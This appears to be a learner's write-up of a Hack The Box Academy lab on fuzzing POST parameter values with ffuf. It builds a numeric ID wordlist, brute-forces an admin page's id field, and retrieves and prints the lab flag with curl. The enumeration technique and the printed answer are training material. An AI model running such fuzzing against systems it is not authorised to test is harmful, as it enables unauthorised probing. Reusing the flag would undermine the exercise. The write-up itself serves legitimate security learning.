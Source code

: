 ```yaml
---
sticker: lucide//code
---
```

After fuzzing a working parameter, we now have to fuzz the correct value that would return the `flag` content we need. This section will discuss fuzzing for parameter values, which should be fairly similar to fuzzing for parameters, once we develop our wordlist.

---

## Custom Wordlist

When it comes to fuzzing parameter values, we may not always find a pre-made wordlist that would work for us, as each parameter would expect a certain type of value.

For some parameters, like usernames, we can find a pre-made wordlist for potential usernames, or we may create our own based on users that may potentially be using the website. For such cases, we can look for various wordlists under the `seclists` directory and try to find one that may contain values matching the parameter we are targeting. In other cases, like custom parameters, we may have to develop our own wordlist. In this case, we can guess that the `id` parameter can accept a number input of some sort. These ids can be in a custom format, or can be sequential, like from 1-1000 or 1-1000000, and so on. We'll start with a wordlist containing all numbers from 1-1000.

There are many ways to create this wordlist, from manually typing the IDs in a file, or scripting it using Bash or Python. The simplest way is to use the following command in Bash that writes all numbers from 1-1000 to a file:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Once we run our command, we should have our wordlist ready:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ cat ids.txt

1
2
3
4
5
6
<...SNIP...>
```

Now we can move on to fuzzing for values.

---

## Value Fuzzing

Our command should be fairly similar to the `POST` command we used to fuzz for parameters, but our `FUZZ` keyword should be put where the parameter value would be, and we will use the `ids.txt` wordlist we just created, as follows:

  Value Fuzzing

```shell-session
smoothment@htb[/htb]$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:30794/admin/admin.php
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

<...SNIP...>                      [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

We see that we get a hit right away. We can finally send another `POST` request using `curl`, as we did in the previous section, use the `id` value we just found, and collect the flag.

# Question
---
![](cybersecurity/images/Pasted%2520image%252020250129160543.png)

So, we need to create the `ids.txt` wordlist, let's use the following command:

`for i in $(seq 1 1000); do echo $i >> ids.txt; done`

![](cybersecurity/images/Pasted%2520image%252020250129160645.png)

We can do `wc -l ids.txt` to check that indeed it has 1000 elements. 

Let's proceed with the fuzzing:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'`

![](cybersecurity/images/Pasted%2520image%252020250129160803.png)

Let's filter out by size 768: `-fs 768`:

`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic `

```
ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 768 -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:49384/admin/admin.php
 :: Wordlist         : FUZZ: /home/htb-ac-1340293/ids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 768
________________________________________________

73                      [Status: 200, Size: 787, Words: 218, Lines: 54, Duration: 77ms]
```

We got it, `73`, let's use curl now in order to collect the flag:

`curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{`

```
curl http://admin.academy.htb:49384/admin/admin.php -X POST -d 'id=73' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{
<div class='center'><p>HTB{p4r4m373r_fuzz1n6_15_k3y!}</p></div>
```

Flag is: `HTB{p4r4m373r_fuzz1n6_15_k3y!}`

